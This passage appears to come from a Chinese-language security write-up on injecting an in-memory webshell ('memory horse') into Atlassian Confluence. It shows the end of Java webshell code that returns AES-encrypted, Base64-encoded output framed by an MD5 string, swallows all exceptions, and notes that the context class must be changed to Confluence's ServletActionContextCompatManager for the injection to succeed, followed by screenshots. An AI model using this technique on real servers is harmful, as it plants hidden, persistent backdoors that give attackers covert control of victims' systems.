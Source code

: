 ```plain
                                        printWriter.write(md5.substring(0, 16));
                                        printWriter.write(Base64.getEncoder().encodeToString(aes(arrOut.toByteArray(), true)));
                                        printWriter.write(md5.substring(16));
                                        printWriter.flush();
                                        printWriter.close();
                                    }
                                }
                            }
                        }
                    }

                }catch (Throwable e){
                }
            }
        }catch (Exception e){

        }
    }


}
```

我们获取 Context 的类需要改为 `com.atlassian.confluence.compat.struts2.servletactioncontext.ServletActionContextCompatManager`  
最后即可成功注入内存马

[![](assets/1710899069-e4388c0e41cf1cbd23715050f01dd591.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111541-7cd4f660-d51e-1.png)

[![](assets/1710899069-f743b5dba22000503f1e2ea4c3a278ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111545-7f4a201e-d51e-1.png)
